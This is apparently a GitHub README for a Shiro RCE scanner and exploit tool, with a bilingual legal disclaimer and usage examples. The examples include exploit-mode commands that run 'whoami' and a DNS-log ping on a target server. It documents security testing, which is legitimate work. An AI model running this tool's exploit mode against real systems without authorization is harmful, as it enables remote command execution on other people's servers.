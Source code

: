 # Shiro-Rce-Tool
一个简单的Shiro RCE检测和利用脚本。- Simple scanner and exploit for Shiro RCE.
  
![GitHub License](https://img.shields.io/github/license/Hack3rHan/Shiro-Rce-Tool)

## 声明 WARNING
* 仅供安全人员验证、测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](https://www.gov.cn/xinwen/2016-11/07/content_5129723.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* **Users must obey [the Cybersecurity Law of the People's Republic of China](https://www.gov.cn/xinwen/2016-11/07/content_5129723.htm)  and local laws.**

## 使用方法 - Usage
**你可以根据你的需求调整data目录下的keys.enable.txt和keys.disable.txt。**  
**You can change the data/keys.enable.txt and data/keys.disable.txt as you like.**  
  
**建议只使用Scan模式检测漏洞，不建议在不了解该漏洞的情况下使用Exploit模式。**  
**It is recommended to only use Scan mode to verify vulnerabilities, and it is not recommended to use Exploit mode without a good knowledge of this vulnerability.**  

* 安装需要的包 - Install required packages  
```bash
pip install -r requirements.txt
```

* 检查该漏洞 - To scan this vulnerability
```bash
python ShiroRceTool.py -m scan -u "http://example.com"
```
  
* 执行命令 (不回显) - Execute command with no echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```
  
* 执行命令（尝试回显） - Execute command with echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
```
  
* 获取帮助 - Get help
```bash
python ShiroRceTool.py
 ____  _     _           ____         _____           _
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|

                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

options:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  "exploit" or "scan".
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo mode.
```